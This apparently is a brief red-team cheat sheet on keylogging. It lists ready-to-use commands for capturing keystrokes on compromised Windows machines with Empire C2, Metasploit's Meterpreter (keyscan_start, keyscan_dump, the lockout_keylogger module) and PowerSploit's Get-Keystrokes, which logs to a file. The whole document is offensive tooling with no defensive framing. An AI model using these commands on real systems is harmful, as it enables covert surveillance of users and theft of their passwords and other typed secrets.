 # Keylogging

### 1) Empire C2

    usemodule/powershell/collection/keylogger

### 2) Metasploit

##### Meterpreter

    keyscan_start
    keyscan_dump

##### Modules

    use post/windows/capture/lockout_keylogger

### 3) Powersploit

    Import-Module .\Exfiltration.psd1
    Get-Keystrokes -LogPath c:\key.log
